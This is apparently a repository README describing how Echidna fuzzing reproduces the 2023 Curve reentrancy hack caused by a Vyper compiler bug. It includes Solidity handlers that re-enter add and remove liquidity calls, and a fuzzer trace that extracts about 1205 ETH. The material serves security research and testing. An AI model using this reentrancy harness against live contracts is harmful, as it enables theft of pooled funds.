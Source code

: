 # Curve Hack - Fuzzing Reproduction

## Description
This repository contains a reproduction of one of the Curve reentrancy hacks caused by a compiler issue in Vyper. Assets stolen from the Curve pools exceeded $41 million. For more details, refer to the [Vyper compiler saga](https://medium.com/rektify-ai/the-vyper-compiler-saga-unraveling-the-reentrancy-bug-that-shook-defi-86ade6c54265) on Rekt.

## Methodology
To reproduce the bug, we utilize Echidna's on-chain fuzzing. 

We define a single invariant to check if an attacker can increase their ETH balance.
```solidity
function testProfit() public {
    uint256 balance = address(this).balance;
    gte(initialBalance, balance, "Profit test");
}
```

We then add handlers to add and remove liquidity to the Curve pool, focusing solely on ETH for simplicity. By clamping, we ensure the fuzzer only adds or removes an amount within the attacker's current balance.
```solidity
    function addLiquidity(uint128 _amount) public {
        _amount = uint128(clampBetween(_amount, 0, address(this).balance));

        uint256[2] memory amount;
        amount[0] = _amount;
        amount[1] = 0;

        pool.add_liquidity{value: _amount}(amount, 0);
    }

    function removeLiquidity(uint128 _amount) public {
        _amount = uint128(
            clampBetween(_amount, 0, pool.balanceOf(address(this)))
        );

        uint256[2] memory amount;
        amount[0] = 0;
        amount[1] = 0;

        pool.remove_liquidity(_amount, amount);
    }
```

Given the hack involves reentrancy, we implement a rudimentary reentrancy handler in the `receive` function.
```solidity
    receive() external payable {
        if (reentrancyEnabled) {
            uint256 functionId = (reentrancyFunction % 2 == 1) ? 0 : 1;

            if (reentrancyFunction == 0) {
                addLiquidity(reentrancyAmount);
            } else if (reentrancyFunction == 1) {
                removeLiquidity(reentrancyAmount);
            }
        }
    }
```

The behavior of this handler is controlled by global variables, which are set by the fuzzer.
```solidity
    function setReentrancyEnabled(bool _reentrancyEnabled) public {
        reentrancyEnabled = _reentrancyEnabled;
    }

    function setReentrancyFunction(uint8 _reentrancyFunction) public {
        reentrancyFunction = _reentrancyFunction;
    }

    function setReentrancyAmount(uint128 _reentrancyAmount) public {
        reentrancyAmount = _reentrancyAmount;
    }
```

Echidna typically detects the bug within 5 minutes on a single worker. The sequence leading to the hack can be seen below.
```
testProfit(): failed!💥
  Call sequence, shrinking 1739/5000:
    Fuzz.setReentrancyAmount(62297794394773161987899947455086967966)
    Fuzz.addLiquidity(287947091533324425929789050717863786957)
    Fuzz.removeLiquidity(209948338645151591393209938770631982993)
    Fuzz.addLiquidity(58576701019271218016466182754478192010)
    Fuzz.removeLiquidity(967)
    Fuzz.setReentrancyEnabled(false)
    Fuzz.removeLiquidity(247696123990480820083721037276151777885)
    Fuzz.testProfit()

emit AssertGteFail(«Invalid: 1000000000000000000000000<1001205683176915736170634 failed, reason: Profit test»)
```

Total profit: `1205683176915736170634` (1205 ETH).

## Future Research
The current Proof of Concept is deliberately kept simple to optimize for fuzzing. Enhancing it to resemble a more comprehensive fuzzing suite could include:
-  Adding a handler for `exchange`
- Support for adding liquidity to all tokens in the pool
- Simulating multiple actors

While these additions would increase the complexity and slow down the fuzzing process due to a larger search space, they would still effectively reproduce the hack.

## Links
- https://medium.com/rektify-ai/the-vyper-compiler-saga-unraveling-the-reentrancy-bug-that-shook-defi-86ade6c54265
- https://hackmd.io/@LlamaRisk/BJzSKHNjn
- https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/2023-07/Curve_exp01.sol

